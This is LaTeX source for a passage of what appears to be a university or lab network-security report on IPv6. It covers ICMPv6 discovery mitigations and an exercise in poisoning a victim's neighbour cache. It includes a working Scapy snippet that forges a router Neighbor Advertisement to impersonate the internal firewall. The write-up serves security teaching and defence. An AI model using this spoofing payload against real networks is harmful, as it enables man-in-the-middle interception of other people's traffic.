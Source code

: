 \documentclass[twocolumn]{NobArticle}
\begin{document}
Some mitigations against this kind of discovery are, for example, the use of
hard-to-guess interface identifiers (RFC~7217~\cite{rfc7217},
RFC~8064~\cite{rfc8064}), rate-limiting of ICMPv6 on the firewall and
dedicated IDS rules on multicast traffic. Completely
filtering ICMPv6, however, is not viable because IPv6 itself depends on it
for NDP, PMTUD and SLAAC.

\subsection{NDP threats: NA router cache poisoning}

For this exercise we targeted the neighbour-cache entry of the default
router on arpwatch-clients, with the goal of associating the link-local
address of the internal firewall with Kali's MAC address:

\begin{itemize}
    \item Attacker: \texttt{kali} (clients network)
    \item Victim: \texttt{arpwatch-clients}
    \item Impersonated host: internal firewall, link-local
        \texttt{fe80::64a3:2eff:fe83:1e7f}
\end{itemize}

Before the attack the victim holds the correct mapping for the router in
its neighbour cache, with the \texttt{router} flag set:

\newpage
\begin{lstlisting}
$ ip neigh show
fe80::64a3:2eff:fe83:1e7f dev eth0
   lladdr 66:a3:2e:83:1e:7f router STALE
\end{lstlisting}

where \texttt{66:a3:2e:83:1e:7f} is the genuine MAC of the internal
firewall on the clients segment. From Kali we then crafted a forged
Neighbor Advertisement with Scapy, setting \texttt{R=1} to mark the message
as coming from a router:

\begin{lstlisting}
d = IPv6(
   src="fe80::64a3:2eff:fe83:1e7f",
   dst="2001:470:b5b8:1e82:b89d:d3ff:feec:ea07")
e = ICMPv6ND_NA(R=1,
   tgt="fe80::64a3:2eff:fe83:1e7f")
f = ICMPv6NDOptDstLLAddr(
   lladdr="e6:80:50:76:15:46")
send(d/e/f, iface="eth0")
\end{lstlisting}

The capture \texttt{na-poisoning.pcap} confirms the forged NA, with the
\texttt{router, override} flags and Kali's MAC in the
destination link-address option:
\end{document}
